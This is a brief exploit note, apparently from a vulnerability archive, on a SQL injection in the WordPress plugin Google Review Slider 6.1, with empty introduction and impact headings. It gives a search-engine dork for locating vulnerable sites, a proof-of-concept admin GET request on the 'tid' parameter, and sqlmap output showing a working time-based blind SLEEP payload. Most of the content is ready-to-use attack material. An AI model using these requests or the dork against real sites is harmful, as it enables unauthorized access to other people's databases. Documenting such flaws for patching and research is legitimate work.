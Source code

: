 ```yaml
---
title: WordPress Plugin - Google Review Slider 6.1 SQL Injection
id: zhfly3240
---
```


# WordPress Plugin - Google Review Slider 6.1 SQL Injection

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

inurl:"/wp-content/plugins/wp-google-places-review-slider/"

POC :

```
 GET/wp-admin/admin.php?page=wp_google-templates_posts&tid=1&_wpnonce=***
 &taction=edit HTTP/1.1 
```

sqlmap result

```
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: tid (GET)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: page=wp_google-templates_posts&tid=1 AND (SELECT 5357 FROM
(SELECT(SLEEP(5)))kHQz)&_wpnonce=***&taction=edit 
```